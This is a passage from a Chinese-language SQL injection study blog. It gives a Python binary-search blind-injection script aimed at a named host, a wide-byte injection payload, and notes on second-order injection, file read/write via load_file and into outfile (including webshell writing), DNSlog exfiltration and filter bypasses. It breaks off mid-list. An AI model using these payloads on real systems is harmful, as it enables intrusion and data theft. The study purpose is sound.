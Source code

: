这里是直接通过逐位爆破完成的盲注，二分法的脚本如下：

```python
import requests

res = ''
for i in range(1, 10):
    min=65
    max=127
    while(abs(max - min) > 1):
        mid = (max + min)//2
        payload = "?user=1' and if(ascii(substr(database(), {},1))>{},pow(999,999),1) %23&pass=123".format(i, mid)
        url = "http://v8.su29029.xyz:10010/index.php" + payload
        r = requests.get(url)
        # print(mid, end = " ")
        if (r.text.find('Something wrong') != -1):
            min=mid
        else:
            max=mid
res += chr(max)
print(res)
```

#### 0x06 宽字节注入

宽字节注入主要借助GBK编码，由于mysql的识别错误(错误地将两个url编码字符识别成一个，从而吞掉原本的转义字符或特殊的防注入字符)，导致注入。

通用payload：

```sql
?param=1%df' union select 1,2,3 %23
```

#### 0x07 二次注入

二次注入主要是利用逻辑漏洞，向数据库中插入脏数据，程序运行中二次去除了脏数据缺未过滤，导致恶意sql代码被执行。常见于用户修改密码逻辑，注册逻辑等。

#### 0x08 文件读写，DNSlog

mysql中load_file()函数可以用于读取本地文件，into outfile 可以向本地写入文件，例如写入一句话木马。

load_file()函数的一个应用是在Windows系统中通过访问由重要信息拼接而成的url，访问url需要进行dns解析，通过查看解析记录即可获取到重要信息。(具体可以参见上一篇博客sqliab学习总结（三）)。

#### 0x09 过滤问题

主要绕过方法：双写绕过，任意大小写绕过，相同功能函数绕过，可代替字符绕过。

1.空格，注释，引号，逗号，等号，大于号，小于号

空格主要通过%a0绕过，成功率高。也可通过/**/，以及巧用括号的方式绕过

避免使用注释的方法主要是巧妙闭合单引号。

引号的绕过主要可以通过括号，或者单双引号逃逸的方法。

逗号的绕过主要可以通过join完成，例如：
